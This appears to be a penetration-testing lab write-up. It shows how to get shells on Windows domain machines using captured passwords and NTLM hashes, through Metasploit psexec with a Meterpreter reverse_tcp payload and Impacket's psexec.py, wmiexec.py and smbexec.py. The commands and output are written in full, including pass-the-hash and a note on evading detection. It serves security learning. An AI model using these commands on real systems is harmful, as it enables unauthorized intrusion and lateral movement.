





# Gaining Shell Access

We will now use the access credentials and password hashes that we have
captured in the previous sections to get a shell on the target machines.


### Metasploit (psexec) with password or password hash

We can use the `Metasploit` module `exploit/windows/smb/psexec` to get a
Meterpreter shell on the target machine. If we look into the `options` after we
have picked the right module with `use`, we can identify the settings which are
required to be set. In any case, we will have to provide some sort of
authentication (`SMBPass`, `SMBUser`).






The same is also possible using a password hash, setting the parameter `SMBPass`
to the captured hash value.



We start `msfconsole` and search for `psexec`. This gives a lot of hits (July
2025: 37). 

Most of the time today, our targets will be 64 bit machines, therefore we set the
payload to a 64 bit version with `set payload windows/x64/meterpreter/reverse_tcp`.
(Use auto-completion with the tab key!)

However, there are still many 32 bit machines around, so it is not guaranteed
that an exploit for a 64 bit machine will be the correct choice every time.

We want to attack the workstation `THEPUNISHER` with the IP `10.0.2.6`, which
is part of the `MARVEL.local` domain. The user is `fcastle` with the cracked
password `Password1`:

```
msf6 exploit(windows/smb/psexec) > set rhosts 10.0.2.6
rhosts => 10.0.2.6
msf6 exploit(windows/smb/psexec) > set SMBDomain MARVEL.local
SMBDomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set SMBUser fcastle
SMBUser => fcastle
msf6 exploit(windows/smb/psexec) > set SMBPass Password1
SMBPass => Password1
```

We can double-check the entered values with the `options` command to be sure.
The target is set to `automatic`. If this does not work, we can try either
`Powershell` or `Native upload`. We can use the commands `show targets` and
`set target <number>` to set another one. According to TCM, `Native upload`
works best.

Once all parameters are set, we can enter `run` to start the attack.

**The attacks fails with all three target settings (0 - Automatic, 1 -
Powershell, 2 - Native upload)!** IP address, user name and password are set
correctly. The reason is apparently that Microsoft Defender identified the
attack and blocked the connection! 

Advice on Discord to someone else: "You might want to check if **firewall and
AV real time protection is disabled** on the target" -- this did the trick.
After switching firewall and antivirus protection of, I got a Meterpreter
shell:

```
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.0.2.5:4444 
[*] 10.0.2.6:445 - Connecting to the server...
[*] 10.0.2.6:445 - Authenticating to 10.0.2.6:445|MARVEL.local as user 'fcastle'...
[*] 10.0.2.6:445 - Selecting PowerShell target
[*] 10.0.2.6:445 - Executing the payload...
[+] 10.0.2.6:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (203846 bytes) to 10.0.2.6
[*] Meterpreter session 1 opened (10.0.2.5:4444 -> 10.0.2.6:57979) at 2025-08-02 03:45:33 -0400

meterpreter > 
```

We can send the Meterpreter shell to the `background` with the same command, and
we can displayed all shells with the `sessions` command. We can then bring the
Meterpreter shell back up with, e.g. `sessions 1`. This way we can do other
things on the machine while the shell is sitting in the background for future use.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ THEPUNISHER  10.0.2.5:4444 -> 10.0.2.6:57979 (10.0.2.6
                                                                        )

msf6 exploit(windows/smb/psexec) > sessions 1
[*] Starting interaction with 1...

meterpreter >
```


### NTLM attack using an SMB hash

We do not need a domain for an NTLM attack with a password hash. We will use
the local user `administrator` and the hash value of this user's password,
which we have captured in the previous section on SMB Relay Attacks. The stored
hash values are as follows:

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ cat 10.0.2.4_samhashes.sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

The captured hashes are **NTLMv1 hashes** with `aad3b435b51404eeaad3b435b51404ee`
being the LM and `7facdc498ed1680c4fd1448319a8c04f` being the NT part of the
hash. We need the NT part for password cracking and the whole hash (LM and NT)
for hash attacks like pass-the-hash.

We `unset` the SMB domain (or use `set SMBDomain .`) and set the `SMBUser` and
`SMBPass` values to the captured credentials:

```
msf6 exploit(windows/smb/psexec) > set SMBuser administrator
SMBuser => administrator
msf6 exploit(windows/smb/psexec) > unset SMBDomain
Unsetting SMBDomain...
[!] Variable "SMBDomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear SMBDomain
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
SMBPass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```

We can then run the exploit with these settings to get a shell as user
`administrator`:

```
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.0.2.5:4444 
[*] 10.0.2.6:445 - Connecting to the server...
[*] 10.0.2.6:445 - Authenticating to 10.0.2.6:445 as user 'administrator'...
[*] 10.0.2.6:445 - Selecting PowerShell target
[*] 10.0.2.6:445 - Executing the payload...
[*] Sending stage (203846 bytes) to 10.0.2.6
[+] 10.0.2.6:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 2 opened (10.0.2.5:4444 -> 10.0.2.6:58086) at 2025-08-02 04:24:11 -0400

meterpreter >
```

The dumped SAM file stemmed from `SPIDERMAN`, but we can still use it to get
access to `THEPUNISHER` since the password for `administrator` was reused for
several accounts! Same passwords lead to the same hash values that we can then
exploit across several machines.


### Python script psexec.py with password or password hash

The disadvantage of using `Metasploit` in a real life scenario is that it is
very noisy and can easily be picked up by a defender. We can also use a Python
script called `psexec.py` which works in the same fashion and is picked up a
lot less often. This is the **go-to solution** if we want to get a shell on a
machine. However, getting a shell on a computer is **oftentimes not necessary**
to compromise a domain. It can be helpful if we are looking for particular
information or if we are otherwise stuck.

Similar to `Metasploit`, we can either use a known password or a password hash
to get a shell with `psexec.py`.





```
┌──(kali㉿kali)-[~]
└─$ psexec.py MARVEL/fcastle:'Password1'@10.0.2.6
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.0.2.6.....
[*] Found writable share ADMIN$
[*] Uploading file sDiaWjFJ.exe
[*] Opening SVCManager on 10.0.2.6.....
[*] Creating service qfAi on 10.0.2.6.....
[*] Starting service qfAi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> help

 lcd {path}                 - changes the current local directory to {path}
 exit                       - terminates the server process (and this session)
 lput {src_file, dst_path}   - uploads a local file to the dst_path RELATIVE to the connected share (ADMIN$)
 lget {file}                 - downloads pathname RELATIVE to the connected share (ADMIN$) to the current local dir
 ! {cmd}                    - executes a local shell cmd

 
C:\Windows\system32> exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.0.2.6.....
[*] Stopping service qfAi.....
[*] Removing service qfAi.....
[*] Removing file sDiaWjFJ.exe.....

```

If we want to enter the password at the command prompt we can just leave it
away and use `psexec.py MARVEL/fcastle@10.0.2.6`.

To use a password hash instead of a cracked password we use the command
`psexec.py <user>@<target IP> -hashes <full NTLM hash>`:

```
┌──(kali㉿kali)-[~]
└─$ psexec.py administrator@10.0.2.6 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.0.2.6.....
[*] Found writable share ADMIN$
[*] Uploading file gzIdjnNB.exe
[*] Opening SVCManager on 10.0.2.6.....
[*] Creating service tgJE on 10.0.2.6.....
[*] Starting service tgJE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


### Two more alternatives

If `psexec.py` does not work or is blocked by antivirus, we can try `wmiexec.py`
and `smbexec.py` with the same command structure instead. Both worked in our lab
environment. In general, they abuse the same features as `psexec.py`, but which
one works on a given machine depends on the settings on that machine.

```
┌──(kali㉿kali)-[~]
└─$ wmiexec.py administrator@10.0.2.6 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thepunisher\administrator

C:\>exit
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ smbexec.py administrator@10.0.2.6 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
``` 


### Further reading:

* [Wikipedia: NTLM](https://de.wikipedia.org/wiki/NTLM)
* [Understanding NTLM Authentication and NTLM Relay Attacks](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/)
* [NTLM Fully Explained for Security Professionals](https://thievi.sh/blog/ntlm-fully-explained-for-security-professionals/)


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
